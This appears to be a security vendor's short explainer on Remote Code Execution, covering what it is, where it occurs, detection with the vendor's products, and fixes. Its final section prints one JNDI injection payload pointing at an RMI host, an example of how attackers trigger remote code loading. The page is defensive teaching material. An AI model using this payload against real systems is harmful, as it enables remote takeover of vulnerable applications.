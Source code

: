 # Remote Code Execution (RCE)

## What is Remote Code Execution (RCE)

Remote Code Execution occurs when a remote attacker can cause your application to reach out to another source to obtain instructions, often either a script or binary.

RCE is a common name that overlaps with similar vulnerability categories like [deserialization](deserialization.md)

## When can RCE affect my application

Remote Code Execution is commonly found in utilities where software engages remote code or allows items to be loaded. Common occurrences are often around Remote Method Invocation or dynamic loading utilities.

## How do I know if/where my application has an RCE vulnerability

Contrast Assess monitors execution and can detect Remote Code Execution vulnerabilities.

Contrast Protect can defend Remote Code Execution vulnerabilities.

## How do I fix RCE

Developers should avoid frameworks that dynamically load remote code. Operators should harden an environment, preventing it from reaching out to remote sources outside its network or VPC.

## How do people attack RCE flaws
Attackers often inject Strings into applications that can be interpreted as something to load and run.

```
${jndi:rmi://192.168.2.106:1099/vccvhr}
```